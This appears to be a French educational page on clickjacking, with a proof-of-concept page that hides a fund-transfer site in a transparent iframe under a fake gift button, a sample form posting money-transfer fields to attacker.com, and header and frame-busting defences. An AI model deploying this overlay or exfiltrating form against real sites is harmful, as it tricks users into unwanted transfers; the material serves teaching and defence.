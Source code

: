 # Clickjacking
## COUCHE 7

### Usurpation
### Contournement
### Observation

#### ATTAQUE = CLICKJACKING

##### CONFIDENTIALITÉ
##### INTÉGRITÉ

**Description** :
Le clickjacking consiste à tromper un utilisateur en masquant un contenu malveillant derrière un bouton ou lien légitime, souvent via une iframe invisible.

**Source** : https://owasp.org/www-community/attacks/Clickjacking1<br>
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options1<br>
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors

## Déroulé de l’attaque (PoC)

### 1.Cible visée
Imaginons que la cible soit une page sensible comme :  
`https://example.com/transfer-funds`

### 2.Création d’une page piégée

#### `malicious.html` (hébergée par l'attaquant)

```html
<!DOCTYPE html>
<html>
<head>
  <title>Concours gratuit !</title>
  <style>
    iframe {
      opacity: 0;
      position: absolute;
      top: 50px;
      left: 50px;
      width: 800px;
      height: 600px;
      z-index: 2;
    }
    #fake-button {
      position: absolute;
      top: 50px;
      left: 50px;
      z-index: 3;
    }
  </style>
</head>
<body>

<h1>Cliquez ici pour recevoir votre cadeau !</h1>
<button id="fake-button">Obtenir le cadeau</button>

<iframe src="https://example.com/transfer-funds" frameborder="0"></iframe>

</body>
</html>
```

### 3.Explication

L'utilisateur croit cliquer sur un bouton visible alors qu'il clique en réalité sur une action masquée dans une iframe transparente.

##Test local

### `victim.html`

```html
<!DOCTYPE html>
<html>
<head><title>Banque en ligne</title></head>
<body>
  <form action="https://attacker.com/steal" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker_account">
    <input type="submit" value="Transférer">
  </form>
</body>
</html>
```

##Défense

### En-têtes HTTP à ajouter sur le site cible

```http
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none';
```

### Protection JavaScript

```javascript
if (top !== self) {
  top.location = self.location;
}
```
